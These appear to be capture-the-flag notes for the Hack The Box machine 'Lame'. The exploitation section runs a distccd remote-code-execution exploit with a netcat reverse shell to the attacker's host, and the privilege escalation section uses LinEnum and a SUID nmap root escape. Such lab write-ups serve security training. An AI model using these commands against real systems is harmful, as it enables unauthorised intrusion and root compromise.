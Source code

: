 Lame
========================

## Enumeration

    sudo nmap_enum lame.htb | tee nmap_output.txt

![qownnotes-media-QTYpLS](../../../media/qownnotes-media-QTYpLS.png)
    
    sudo nmap -p- -Pn -T5 -n lame.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-QcPqMT](../../../media/qownnotes-media-QcPqMT.png)

    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn lame.htb | tee nmap_udp_output.txt

![qownnotes-media-xicthD](../../../media/qownnotes-media-xicthD.png)

    sudo nmap -sS --script vuln -n -T5 -Pn lame.htb -p 21,22,139,445,3632 | tee nmap_vulns.txt

![qownnotes-media-kIGSvx](../../../media/qownnotes-media-kIGSvx.png)

    wget https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/261b638bb05d02b67b6ad67fa9cf3c74a73de6c6/distccd_rce_CVE-2004-2687.py

    searchsploit vsftpd 2.3.4

![qownnotes-media-DxUQZF](../../../media/qownnotes-media-DxUQZF.png)


## Exploitation

    nc -nlvp 1403

    python2 distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.17 1403 -e /bin/bash"
    
    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm

CTRL + Z

    stty raw -echo; fg
    reset

## PrivEsc

    python -m http.server 80
    
    wget http://10.10.14.17/4-privilege_escalation/LinEnum.sh
    
    chmod +x LinEnum.sh
    ./LinEnum.sh
 
![qownnotes-media-KPUoLb](../../../media/qownnotes-media-KPUoLb.png)

![qownnotes-media-qjiozK](../../../media/qownnotes-media-qjiozK.png)


suid nmap

    /usr/bin/nmap --interactive
    !whoami
    !sh

![qownnotes-media-BMAeCa](../../../media/qownnotes-media-BMAeCa.png)


